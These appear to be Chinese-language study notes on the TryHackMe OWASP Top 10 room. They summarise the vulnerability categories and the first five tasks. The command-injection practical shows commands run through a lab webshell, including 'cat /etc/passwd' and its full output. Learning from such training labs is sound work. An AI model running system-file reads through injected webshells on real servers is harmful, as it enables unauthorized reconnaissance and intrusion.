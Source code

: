 > https://tryhackme.com/room/owasptop10
> #Offensive 

# Task 1 Introduction

介绍了OWASP中常见的漏洞：
-   Injection
-   Broken Authentication
-   Sensitive Data Exposure
-   XML External Entity
-   Broken Access Control
-   Security Misconfiguration
-   Cross-site Scripting
-   **I**nsecure Deserialization
-   Components with Known Vulnerabilities
-   Insufficent Logging & Monitoring

# Task 2 Accessing machines

介绍了如何连接到Tryhackme的靶机网络

# Task 3 [Severity 1] Injection

介绍了何为注入攻击：SQL注入攻击和命令注入攻击

# Task 4 [Severity 1] OS Command Injection

介绍了命令注入

# Task 5 [Severity 1] Command Injection Practical

提供了一个模拟的webshell，来展示命令注入攻击

```shell
ls
css drpepper.txt evilshell.php index.php js 

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing
List
Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats
Bug-Reporting
System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```